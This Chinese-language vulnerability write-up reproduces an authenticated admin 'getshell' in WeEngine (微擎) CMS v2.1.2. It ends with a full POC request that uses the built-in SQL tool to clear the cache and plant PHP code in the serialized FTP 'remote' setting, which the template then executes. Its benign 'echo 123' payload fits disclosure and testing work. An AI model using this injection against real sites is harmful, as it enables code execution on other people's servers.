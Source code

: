 微擎cms v2.1.2 后台getshell
===========================

一、漏洞简介
------------

需要登录后台，并且有高权限。

二、漏洞影响
------------

v2.1.2

三、复现过程
------------

这个洞首先需要一个高权账号。问题出在模板解析这里(template.func.php)。

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId24.png)

attachurl\_remote来自于后台的设置,但是有一层htmlspecialchars

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId25.png)

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId26.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId27.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

    sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit

最后刷新缓存然后打开有加载footer的页面就能getshell了

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId29.png)

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId30.png)

![](./.resource/微擎cmsv2.1.2后台getshell/media/rId31.png)
